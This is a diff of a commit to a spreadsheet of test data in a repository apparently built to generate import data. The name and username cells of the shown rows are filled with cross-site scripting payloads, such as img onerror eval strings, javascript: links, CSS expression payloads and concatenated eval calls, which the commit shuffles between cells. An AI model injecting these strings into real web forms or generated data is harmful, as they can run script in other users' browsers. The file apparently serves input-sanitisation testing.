

Before and after one commit to pintugorai/testDataGemeratorForImport, an Excel workbook: dataFolder/output.xlsx, sheet Sheet_name_1, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/dataFolder/output.xlsx (sheet Sheet_name_1)
+++ b/dataFolder/output.xlsx (sheet Sheet_name_1)
-H2 (firstName): </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
+H2 (firstName): </script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
-I2 (lastName): a=&quot;get&quot;;&amp;#10;b=&quot;URL(&quot;&quot;;&amp;#10;c=&quot;javascript:&quot;;&amp;#10;d=&quot;alert(&apos;XSS&apos;);&quot;)&quot;;&#10;eval(a+b+c+d);
+I2 (lastName): </script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
-B3 (userName): PG_local_u2a="get";b="URL";c="javascript:";d="alert('xss');";eval(a+b+c+d);
+B3 (userName): PG_local_u2<form><a href="javascript:\u0061lert&#x28;1&#x29;">X</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
-H3 (firstName): </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
+H3 (firstName): <form><a href="javascript:\u0061lert&#x28;1&#x29;">X</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
-I3 (lastName): </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
+I3 (lastName): <div style="x:expression((window.r==1)?'':eval('r=1;
-B4 (userName): PG_local_u3a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e);
+B4 (userName): PG_local_u3</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
-H4 (firstName): <form><a href="javascript:\u0061lert&#x28;1&#x29;">X</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
+H4 (firstName): a=";get";;&;#10;b=";URL(";";;&;#10;c=";javascript:";;&;#10;d=";alert(';XSS';);";)";;&#10;eval(a+b+c+d);
-I4 (lastName): </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
+I4 (lastName): a=&quot;get&quot;;&amp;#10;b=&quot;URL(&quot;&quot;;&amp;#10;c=&quot;javascript:&quot;;&amp;#10;d=&quot;alert(&apos;XSS&apos;);&quot;)&quot;;&#10;eval(a+b+c+d);
-B5 (userName): PG_local_u4a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e);
+B5 (userName): PG_local_u4</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
-H5 (firstName): a="get";b="URL";c="javascript:";d="alert('xss');";eval(a+b+c+d);
+H5 (firstName): </script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
-I5 (lastName): a=";get";;&;#10;b=";URL(";";;&;#10;c=";javascript:";;&;#10;d=";alert(';XSS';);";)";;&#10;eval(a+b+c+d);
+I5 (lastName): a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e);
-B6 (userName): PG_local_u5<script>for((i)in(self))eval(i)(1)</script>
+B6 (userName): PG_local_u5<form><a href="javascript:\u0061lert&#x28;1&#x29;">X</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
-H6 (firstName): eval(a+b+c+d);
+H6 (firstName): </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
-I6 (lastName): </script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
+I6 (lastName): </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
-B7 (userName): PG_local_u6</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
+B7 (userName): PG_local_u6eval(a+b+c+d);
-H7 (firstName): </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
+H7 (firstName): <script>for((i)in(self))eval(i)(1)</script>
-I7 (lastName): </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
+I7 (lastName): a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e);
-B8 (userName): PG_local_u7<div style="x:expression((window.r==1)?'':eval('r=1;
+B8 (userName): PG_local_u7<script>for((i)in(self))eval(i)(1)</script>
-H8 (firstName): </script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
+H8 (firstName): a="get";b="URL";c="javascript:";d="alert('xss');";eval(a+b+c+d);
-I8 (lastName): eval(a+b+c+d);
+I8 (lastName): <script>for((i)in(self))eval(i)(1)</script>
-B9 (userName): PG_local_u8eval(a+b+c+d);
+B9 (userName): PG_local_u8<form><a href="javascript:\u0061lert&#x28;1&#x29;">X</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
-I9 (lastName): </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
+I9 (lastName): a=";get";;&;#10;b=";URL(";";;&;#10;c=";javascript:";;&;#10;d=";alert(';XSS';);";)";;&#10;eval(a+b+c+d);
-B10 (userName): PG_local_u9</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
+B10 (userName): PG_local_u9<div style="x:expression((window.r==1)?'':eval('r=1;
-H10 (firstName): </script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
+H10 (firstName): <div style="x:expression((window.r==1)?'':eval('r=1;
-I10 (lastName): a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e);
+I10 (lastName): </script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
-B11 (userName): PG_local_u10</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
+B11 (userName): PG_local_u10a="get";b="URL";c="javascript:";d="alert('xss');";eval(a+b+c+d);
-H11 (firstName): a=&quot;get&quot;;&amp;#10;b=&quot;URL(&quot;&quot;;&amp;#10;c=&quot;javascript:&quot;;&amp;#10;d=&quot;alert(&apos;XSS&apos;);&quot;)&quot;;&#10;eval(a+b+c+d);
+H11 (firstName): </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
-I11 (lastName): eval(a+b+c+d);
+I11 (lastName): <div style="x:expression((window.r==1)?'':eval('r=1;
-B12 (userName): PG_local_u11</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
+B12 (userName): PG_local_u11a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e);
-H12 (firstName): a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e);
+H12 (firstName): </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
-B13 (userName): PG_local_u12</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
+B13 (userName): PG_local_u12a=&quot;get&quot;;&amp;#10;b=&quot;URL(&quot;&quot;;&amp;#10;c=&quot;javascript:&quot;;&amp;#10;d=&quot;alert(&apos;XSS&apos;);&quot;)&quot;;&#10;eval(a+b+c+d);
-H13 (firstName): </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
+H13 (firstName): <script>for((i)in(self))eval(i)(1)</script>
```
Also changed, not shown: 1287 edited cells elsewhere in this sheet, 5 other files.
